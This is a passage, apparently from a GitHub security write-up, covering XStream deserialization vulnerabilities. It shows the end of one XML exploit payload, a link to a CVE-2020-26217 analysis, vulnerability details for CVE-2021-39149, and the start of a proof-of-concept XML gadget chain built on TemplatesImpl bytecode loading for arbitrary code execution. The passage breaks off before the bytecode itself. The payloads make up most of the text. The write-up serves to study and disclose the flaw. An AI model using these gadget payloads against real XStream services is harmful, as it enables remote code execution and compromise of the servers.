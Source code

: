 ```xml
                                <count>0</count>
                            </in>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

<div align=center><img src="./images/6.png"></div>

#### Process Analysis
Refer to the debugging process in [XStream Deserialization CVE-2020-26217 Vulnerability Analysis] (https://www.anquanke.com/post/id/222830#:~:text=%C2%A0-,%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90, -%E7%94%B1%E4%BA%8E%E8%AF%A5%E6%BC%8F%E6%B4%9E).

### CVE-2021-39149
#### Vulnerability Information
 1. Vulnerability
    - CVE-2021-39149: XStream is vulnerable to an Arbitrary Code Execution attack.
 2. Affected Versions
    - All versions until and including vers
ion 1.4.17 are affected, if using the version out of the box. No user is affected, who followed the recommendation to setup [XStream's security framework](https://x-stream.github.io/security.html#framework) with a whitelist limited to the minimum required types.
 3. Description
    - The processed stream at unmarshalling time contains type information to recreate the formerly written objects. XStream creates therefore new instances based on these type information. An attacker can manipulate the processed input stream and replace or inject objects, that result in execution of arbitrary code loaded from a remote server.

#### POC

```xml
<linked-hash-set>
    <dynamic-proxy>
        <interface>map</interface>
        <handler class='com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl'>
            <classToInvocationHandler class='linked-hash-map'/>
            <defaultHandler class='sun.tracing.NullProvider'>
                <active>true</active>
                <providerType>java.lang.Object</providerType>
                <probes>
                    <entry>
                        <method>
                            <class>java.lang.Object</class>
                            <name>hashCode</name>
                            <parameter-types/>
                        </method>
                        <sun.tracing.dtrace.DTraceProbe>
                            <proxy class='com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl' serialization='custom'>
                                <com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
                                    <default>
                                        <__name>Pwnr</__name>
                                        <__bytecodes>
```